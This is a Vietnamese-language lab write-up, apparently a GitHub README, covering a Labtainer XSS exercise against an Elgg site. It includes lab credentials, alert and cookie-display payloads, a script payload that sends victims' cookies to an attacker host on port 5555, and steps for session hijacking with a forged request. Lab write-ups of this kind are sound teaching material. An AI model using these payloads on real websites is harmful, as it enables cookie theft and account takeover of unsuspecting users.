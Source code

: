 # Tấn công Cross Site Scripting vào máy chủ web

- Chạy lệnh: labtainer xsitetrong terminal của Labtainer
  
  ![image](https://github.com/user-attachments/assets/20b92a0d-37bc-4430-9df8-f5046b869a44)

- Chương trình sẽ hiển thị 3 terminal bao gồm “vuln-site”, “victim”, “attacker”.

  ![image](https://github.com/user-attachments/assets/a7d288d1-6afe-4995-995a-927b8e604705)


- Gõ lệnh: sudo systemctl restart httpd
- Đồng thời trình duyệt Firefox sẽ tự động khởi chạy trong vài giây.
  
  ![image](https://github.com/user-attachments/assets/e23e1bb5-db1c-4182-8ab5-854e8a5871b4)

- Open terminal victim gõ lệnh:
- firefox http://www.xsslabelgg.com

  ![image](https://github.com/user-attachments/assets/26725d2d-ad9d-4ebe-86e5-466df225ec56)

## Task 1: Sử dụng mã độc hại hiện thị cửa sổ cảnh báo
- Mục tiêu của nhiệm vụ này là nhúng một chương trình JavaScript vào profile Elgg của bạn, sao cho khi một người dùng khác xem hồ sơ của bạn, chương trình Javascript sẽ được thực thi và một cảnh báo được hiện thị. 

- Đăng nhập vào hệ thống bằng tài khoản `samy` với mật khẩu là `seedsamy`

  ![image](https://github.com/user-attachments/assets/3562a588-fb53-404e-adbe-4d3765807d5c)

- Vào mục More trên thanh taskbar - chọn member-chọn edit profile.
- Chương trình Javascript như sau:
  ```
  <script>alert('XSS');</script>
  ```
  ![image](https://github.com/user-attachments/assets/d74c305e-bdb4-4432-88fa-cb8af996c71f)


## Task 2: Sử dụng mã độc hại hiện thị Cookies trên cửa sổ cảnh báo
- Mục tiêu nhiệm vụ này tương tự task1 nhưng chúng ta sẽ hiện thị cookie người dùng.
- Chương trình Javascript như sau:
  
    ```
    <script>alert(document.cookie);</script>
    ```

    ![image](https://github.com/user-attachments/assets/4576fd65-c6ce-40e5-9259-33bc8dd2ba6f)

## Task 3: Ăn cắp Cookies từ máy của nạn nhân
- Trong nhiệm vụ này, kẻ tấn công tạo một mã Javascript gửi cookie người dùng về cho kẻ tấn công, mã Javascript sẽ gửi một HTTP request với cookie nạn nhân.
  ```
   <script>document.write('<img src=http://attacker_IP_address:5555?c='+ escape(document.cookie) + '>');</script>
  ```
- Khi Javascript chèn thẻ img vào, trình duyệt sẽ cố tải hình ảnh từ url điều này sẽ gửi một request cho kẻ tân công. Javascript đưa ra dưới đây sẽ gửi cookie đến cổng 5555 của máy kẻ tấn công, máy chủ kẻ tấn công sẽ in ra những gì nó nhận được. Máy chủ TCP nằm trong thư mục echoserver.
  
- Open terminal acttacker, vào thư mục run `./echoserv 5555` và chúng ta sẽ lắng nghe request của trình duyệt gửi cookie về cho kẻ tấn công.
  ```
  <script>document.write('<img src=http://172.25.0.3:5555?c='+ escape(document.cookie) + '>');</script>
  ```
  ![image](https://github.com/user-attachments/assets/ea46dd42-2e13-4dd7-b08a-d141b6aa85a1)

## Task 4: Session Hijacking sử dụng cookie bị đánh cắp
- Sau khi đánh cắp cookie của nạn nhân, kẻ tấn công có thể làm bất cứ điều gì nạn nhân có thể làm với web Elgg, bao gồm thêm và xóa bạn bè của nạn nhân. Trong nhiệm vụ này, chúng tôi sẽ khởi chạy cuộc tấn công chiếm quyền điều khiển session.

- Để thêm một người bạn cho nạn nhân, chúng ta sẽ tìm hiểu cách một người dùng hợp pháp thêm một người bạn trong Elgg. Chúng ta cần tìm những gì có trong request gửi đến máy chủ khi người dùng thêm một người bạn. Web Developer / Network tool sẽ cho chúng ta biết những request từ trình duyệt gửi đến máy chủ. Từ nội dung, chúng tôi có thể xác định được tất cả các tham số trong request. 
- Máy chủ Elgg không thể phân biệt xem yêu cầu có phải được gửi bởi trình duyệt nạn nhân hoặc bởi chương trình Java của kẻ tấn công. Miễn sao trong request của kẻ tấn công có đầy đủ tham số như sesion cookie. Để đơn giản hóa nhiệm vụ, thư mục HTTPSimpleForge trên máy tính của kẻ tấn công chứa một mẫu chương trình Java thực hiện. 
    - Note 1: Elgg sử dụng hai tham số __elgg_ts và __elgg_token là biện pháp đối phó CSRF(Cross Site Request Forgery). Đảm bảo rằng bạn đặt các tham số này chính xác cho cuộc tấn công của mình để thành công. 
    - Note 2: Compile và run chương trình Java:
      - javac HTTPSimpleForge.java
      - java HTTPSimpleForge
- Kiểm tra request kết bạn
  
![image](https://github.com/user-attachments/assets/01081210-1a14-4e0b-85de-9fcf42b0c5de)
  
![image](https://github.com/user-attachments/assets/1d9b8546-7ee5-4427-9a41-a70a0a87ca33)

![image](https://github.com/user-attachments/assets/f63e7e71-79ec-4036-bf13-40bd52c2d932)

## Checkwork

![image](https://github.com/user-attachments/assets/404d4fb6-bd62-4ded-8805-c4112480d8fc)

![image](https://github.com/user-attachments/assets/6bd61dfa-3264-4b76-9b76-04376e383bac)

## Thiết lập DMZ cho một doanh nghiệp (lab lỗi)

![image](https://github.com/user-attachments/assets/35d40e1b-042e-4b5a-83e1-d218dbc34110)

![image](https://github.com/user-attachments/assets/74b21c43-3c3a-4a75-a504-50a1645ba7b7)

![image](https://github.com/user-attachments/assets/b88466c0-d24e-4ec0-befb-0b753069ca8f)

![image](https://github.com/user-attachments/assets/d500974e-57e2-4f4e-8b8d-c49a832bd1af)

![image](https://github.com/user-attachments/assets/f0c76a4c-871f-4140-afcc-5c719119640f)

![image](https://github.com/user-attachments/assets/66534529-4657-4ecc-ad56-b727dbf51af2)

![image](https://github.com/user-attachments/assets/c4ef5513-9972-4816-9b48-be3a948998ec)
